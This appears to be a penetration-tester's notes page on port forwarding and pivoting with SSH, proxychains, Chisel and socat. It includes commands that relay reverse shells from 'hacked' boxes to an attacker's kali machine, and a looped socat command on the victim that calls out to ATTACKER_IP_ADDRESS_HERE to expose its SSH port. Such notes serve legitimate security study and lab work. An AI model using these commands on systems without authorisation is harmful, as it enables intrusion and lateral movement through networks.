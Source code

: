 # Port Forwarding

## SSH

### Locally

Example: we want to connect to the port 1025 on the remote machine "delivery" on our port 1337.

```
ssh -L 1337:localhost:1025 maildeliverer@delivery
```

Example: we want to access the port 1025 on the remote machine "pivotable" through the machine "delivery" on our machine on port 1337.&#x20;

```
ssh -L 1337:pivotable:1025 maildeliverer@delivery
```

### Remotely

Example: SSH to my kali, opens up port 1025 on the victim's localhost, to be accessible at port 1337 on kali.

```
ssh -R 1337:localhost:1025 kali@mykali
```

### Dynamically

This creates a SOCKS proxy that allows you to reach IP addresses that are in the same network as a box you can SSH to.&#x20;

Run the following commands on the box you want to proxy through:

```
# in an ssh session:
~C
-D 1080
```

Then, on your machine, make sure `/etc/proxychains.conf` has:

```
socks5 127.0.0.1 1080
```

Then you can use the `proxychains` command in front of your other commands to proxy through the machine. For example, this command curls the IP address 192.168.122.4 through the proxied machine:

```
proxychains curl 192.168.122.4
```

To use that with burp, go to "User Options", select "use socks proxy", and configure it to go through localhost on port 1080.

### Two Hops

This section explains how to forward a reverse shell gained in a second hacked box through a first hacked box to kali.

Run the following commands on the first hacked machine:

```
# in an ssh session:
~C

# first part is for the hacked machine
# second part is for kali
-R 127.0.0.1:9001:127.0.0.1:9001 
```

**Question:** Why can't we just specify the private IP address in the above command instead of 127.0.0.1? In that case, we wouldn't have to redirect with socat later on.

You can confirm whether it worked by running:

```
netstat -alnp | grep 9001
```

This will send everything from the hacked machine's localhost:9001 to kali:9001. However, **it will not send anything from the hacked machine's private IP address** to kali.&#x20;

You can use socat to redirect traffic from the second hacked machine's private IP address to its localhost, so that the traffic could be forwarded to kali.&#x20;

In this example, the first hacked box's IP address is 192.168.122.1:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

After you have set that up, you can run a reverse shell on the second hacked machine and have it connect to port 9001 on the first hacked machine. That connection will be forwarded to port 9001 on your kali. **Don't forget to run a listener on port 9001** in kali to catch the connection.

## Chisel

This will allow you to access port 4505 on the target's localhost from port 4505 on your own machine.

```
# Run on kali
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse

# Run on target machine
./chisel_1.7.6_linux_amd64 client YOUR_IP_ADDRESS:12312 R:4505:127.0.0.1:4505
```

## Socat

### Same Machine Redirection

You can use socat for redirecting a port to another port on the same machine.

For example, this command redirects port 9001 on the IP address 192.168.122.1 to localhost:9001 **on that same machine**:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

### **Access Remote Port Through Local Port**

{% embed url="https://book.hacktricks.xyz/tunneling-and-port-forwarding#remote-port-2-port" %}

**Warning**: For some strange reason, when I used this to forward a web port, then I was able to do curl requests to this, but not gobuster or wfuzz.

```
# On attacker's machine
# Redirect port 2222 to port 443 in localhost
sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr

# On victim machine
# Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
while true; do socat TCP4:ATTACKER_IP_ADDRESS_HERE:443 TCP4:127.0.0.1:22 ; done 
```

After following the above example, your port 2222 will be forwarded to a victim's port 22. So you can SSH to the victim like this:

```
ssh localhost -p 2222
```
